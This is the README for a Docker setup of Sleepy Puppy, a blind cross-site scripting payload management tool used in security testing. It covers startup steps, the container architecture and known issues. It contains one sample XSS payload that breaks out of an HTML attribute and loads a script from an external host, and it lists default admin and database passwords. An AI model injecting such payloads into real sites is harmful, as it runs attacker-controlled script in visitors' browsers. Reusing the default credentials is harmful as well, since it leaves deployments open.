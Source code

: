 Sleepy Puppy ZeroToDocker
=======================


For full documentation, please see the [wiki](https://github.com/Netflix/sleepy-puppy/wiki).

This repo utilizes docker compose to launch a cluster of containers to support the sleepy-puppy project.  This is only meant to be used to **play**.  See the [Issues](#Issues) section for information regarding productionalizing these containers.

----------

###Requirements
* Latest version of [Docker Toolbox](https://www.docker.com/toolbox)
* Running boot2docker vm
* Terminal with all docker env variables set

Starting
-------------
First determine the ip address of your boot2docker vm

> boot2docker ip

Replace the host variable in docker-compose.yaml with that IP

```
...
    host: <YOUR IP ADDRESS HERE>
...
```

> docker-compose up

Stopping
-------------
> docker-compose stop

Try It Out
-------------
Launch web browser and connect to your docker container's IP over http. 
The default credientials are `admin/password`


Architecture
-------------

This project launches three containers:

 1. postgres:latest
 2. sleepy-puppy-nginx:0.2.0
 3. sleepy-puppy-web:0.2.0

Externally, only sleepy-puppy-nginx exposes any ports.  This container only exposes TCP 80.  See the [Issues](#Issues) section for an explanation of why TCP 443 was not exposed.


Issues
-------------

**No SSL**
Other containers in the zeroToDocker project use self-signed SSL certificates, as only the user will be required to have their browser accept this SSL cert.  For sleepy-puppy, the user, and anyone browsing any site with a sleepy-puppy payload would need to accept the self-signed SSL cert.

This is likely to cause confusion when trying to get a payload to fire.  To simplify the situation, the docker will not expose SSL.  To save a few characters and avoid mixed-content warnings, sleepy-puppy payloads exclude the protocol.

	> '"><script src=//ti.ht/x?u=2></script>

Because the payloads exclude the protocol, and the container is not listening on SSL, the payloads will only fire on HTTP (not HTTPS) sites.

If you plan to run this in production, you will need to obtain an SSL cert from a trusted source and modify the sleepy-puppy-nginx container to terminate the SSL.

----------

**Default credentials on the web UI**
The username for the sleepy-puppy web UI is `admin`.  The docker-compose.yml defines the password as `password` by setting the `DOCKER_ADMIN_PASS` environment variable.  

For production use, you will want to modify or remove this default account.

**Default Flask-Secret and CSRF-Secret**
The docker-compose.yml defines a `secret_key` and `csrf_session_key` environment variable which are passed into the Flask application.

For production use, you will want to modify these values.

**Default credentials on the postgres database**
The username for the postgres database is `postgres`.  The password for this database is actually set in the api-start.sh file found within the sleepy-puppy-web container.  This password is set to `password`.

You may wish to change this password for production use.


